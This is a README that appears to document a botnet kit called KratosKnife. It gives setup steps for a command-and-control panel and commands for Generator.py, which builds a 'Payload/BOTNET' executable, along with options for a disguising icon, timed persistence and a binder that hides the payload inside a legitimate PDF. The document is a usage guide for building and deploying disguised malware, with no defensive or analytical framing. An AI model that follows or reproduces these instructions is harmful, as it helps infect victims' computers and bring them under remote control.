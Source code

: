 ## Server Setup

1. Upload & Unzip `panel.zip` on your hosting available in this repo 
2. Create a database with any name you want
3. Change the data in classes/Database.php
4. Change files and folders permission to 777 [**Uploads Folder, Scripts Folder**]
5. Go to `install.php` to create the botnet tables automatically

* [**For Testing Locally**]

1. Install XAMPP, & Put panel files inside htdocs folder and Run Apache & MySQL Service In XAMPP Controller
2. Create a database with any name you want
3. Change the data in classes/Database.php
4. Go to `install.php` to create the botnet tables automatically

## Usage
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/trhacknon/KratosKnife.git

# Go into the repository
$ cd KratosKnife/Botnet-Generator

# Installing dependencies
$ python -m pip install -r requirements.txt

# Update pyinstaller.exe path, in Generator.py (line 9) 

# Getting Help Menu
$ python Generator.py --help

# Making Payload/BOTNET
$ python Generator.py -s localhost/panel -o output_file_name --icon icon/exe.ico

```

## Available Arguments 
* Optional Arguments

| Short Hand         | Full Hand                       | Description                                                                 |
| ------------------ | ------------------------------- | --------------------------------------------------------------------------- |
| -h                 | --help                          | show this help message and exit                                             |
|                    | --interactive                   | Takes Input by asking Questions                                             |
|                    | --icon ICON                     | Specify Icon Path, Icon of Evil File [**Note : Must Be .ico**]              |
| -i INTERVAL        | --interval INTERVAL             | Time between reports in seconds. default=12.       [**Under Development**]  |
| -t TIME_PERSISTENT | --persistence TIME_PERSISTENT   | Becoming Persistence After __ seconds. default=10                           |
| -b file.txt        | --bind LEGITIMATE_FILE_PATH.pdf | Built-In Binder : Specify Path of Legitimate file. [**Under Development**]  |
